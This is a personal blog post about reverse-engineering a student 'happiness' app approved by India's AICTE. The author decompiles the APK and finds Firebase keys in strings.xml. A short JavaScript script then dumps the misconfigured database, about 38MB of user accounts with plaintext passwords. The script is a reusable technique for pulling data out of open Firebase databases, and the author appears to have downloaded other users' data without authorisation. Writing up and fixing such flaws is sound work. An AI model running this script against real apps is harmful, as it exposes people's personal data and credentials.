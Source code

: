 [](ujjujjuj)
[](https://ujwl.in)
[](2023-02-04)

# Hacking AICTE's "Happiness App"

A few months back, my college sent every student an email asking us to download an app called _YOL - YourOneLife_ which claims to be approved by AICTE. For those of you who don't know, AICTE stands for the All India Council for Technical Education. I don't exactly know what this council does but it comes under the Indian ministry of education so it must be something serious.
<br />
<br />
This app claims to have an _inbuilt AI_ that will assess each institute's happiness index. 😱

> Students will have an opportunity to earn NFTs on the app. Students can redeem these NFTs after 6 months for various goodies and vouchers and even trade them for value.

All of this looks pretty shady to me because they're using every buzzword that exists to market their app. This motivated me to dig deep into what this application actually does, so I decided to download and check it out myself.

## First Look

As it turns out, the app is garbage. The text isn't even visible because its color is the same as the background color. I can't even figure out what to do to log in. Other people were also facing the same issue as evident from the Play Store reviews of this app.

I don't think I'll be able to check out this app in the _conventional_ way, so I decided to reverse-engineer it.

## Reverse Engineering the App

I decided to use [Apktool](https://ibotpeaches.github.io/Apktool/) to decompile the app. Apktool is a tool to reverse engineer 3rd party closed-source android apps. To be clear, it is not illegal to decompile an application. After downloading the APK file of the app, decompiling it was very easy

```plaintext
$ apktool d com.yol.apk

I: Using Apktool 2.6.1 on com.yol.apk
I: Loading resource table...
I: Decoding AndroidManifest.xml with resources...
I: Loading resource table from file: /home/ujjujjuj/.local/share/apktool/framework/1.apk
I: Regular manifest package...
I: Decoding file-resources...
I: Decoding values */* XMLs...
I: Baksmaling classes.dex...
I: Baksmaling classes2.dex...
I: Copying assets and libs...
I: Copying unknown files...
I: Copying original files...
```

The first file I went looking for is called _strings.xml_. It is where the app developer stores hardcoded strings - including database URLs, API keys, and other interesting stuff. This file had a database URL and Google API keys inside it.

```xml
<string name="firebase_database_url">https://XXXXX.firebaseio.com</string>
<string name="google_api_key">XXXXX</string>
<string name="google_app_id">XXXXX</string>
<string name="project_id">XXXXX</string>
<string name="google_storage_bucket">XXXXX.appspot.com</string>
```

It is common for apps that use Firebase to store their keys in here. Some inexperienced developers forget to secure their firebase database by not setting up proper access permissions which could very well be the case here, so I decided to access Firebase using these keys.
<br />
<br />
I wrote a script in JS to do just that

```js
import { initializeApp } from "firebase/app";
import { getDatabase, ref, onValue } from "firebase/database";
import fs from "fs";

const firebaseConfig = {
  apiKey: "XXXXX",
  authDomain: "XXXXX.firebaseapp.com",
  databaseURL: "https://XXXXX.firebaseio.com",
  projectId: "XXXXX",
  storageBucket: "XXXXX.appspot.com",
};

const app = initializeApp(firebaseConfig);
const database = getDatabase(app);
const dbRef = ref(database);
onValue(dbRef, (ss) => {
  console.log("downloaded snapshot");
  fs.writeFile("data.json", JSON.stringify(ss.val(), null, 4), "utf8", () => {
    console.log("saved");
    process.exit();
  });
});
```

And guess what, my suspicion was correct. The database was not configured properly and I was able to download all the data. I was able to download about 38MB of JSON data which contained user account data and posts. To my surprise, the user passwords were in **plaintext** and not hashed. This clearly showed that the application developer had no idea about security, or just had no regard for the safety of the users. 

## Conclusion

This is an easily preventable vulnerability. All you have to do is read the [firebase docs](https://firebase.google.com/docs/firestore/solutions/role-based-access) about database rules. AICTE should re-evaluate its approval procedure to not allow such low-quality apps to pass.
